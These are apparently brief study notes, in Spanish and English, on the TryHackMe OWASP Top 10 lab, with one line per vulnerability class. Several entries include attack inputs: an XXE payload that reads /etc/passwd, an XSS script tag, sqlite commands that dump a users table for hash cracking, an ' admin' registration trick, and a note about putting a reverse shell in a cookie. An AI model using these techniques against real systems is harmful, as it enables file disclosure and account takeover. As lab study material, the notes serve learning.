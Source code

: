 OWASP Top 10 vulnerabilities web security risks.
https://tryhackme.com/r/room/owasptop10

# 1. Command Injection
Inyección de comandos a la maquina real desde la web
# 2. Broken Authentication
Registrarse con un usuario ya existente poniendo un espacio en el registro " admin" y al iniciar sesión con esta cuenta entramos como admin
# 3. Sensitive Data Exposure
Leak BBDD
```
sqlite3 web.db
```
```
.tables
```
```
SELECT * FROM users;
```
Crack el hash y tienes la contraseña admin de la web
# 4. XML External Entity
Modificar:
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>  
 <userInfo>  
  <firstName>falcon</firstName>  
  <lastName>&name;</lastName>  
 </userInfo>
```
Leer:
```
`<?xml version="1.0"?>   
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>   
<root>&read;</root>`
```
# 5. Broken Access Control
Pode acceder a recursos que no deberías
# 6. Security Misconfiguration
Default credentials
# 7. Cross-site Scripting
```
<script>document.getElementById("thm-title").innerHTML = "I am a hacker"; </script>
```
# 8. Insecure Deserialization
Insert reverse shell intro cookie, change cookie value
# 9. Components With Known Vulnerabilities
Vulnerabilidades conocidas, uso de scripts
# 10 . Insufficient Logging and Monitoring
Logs de fuerza bruta , etc...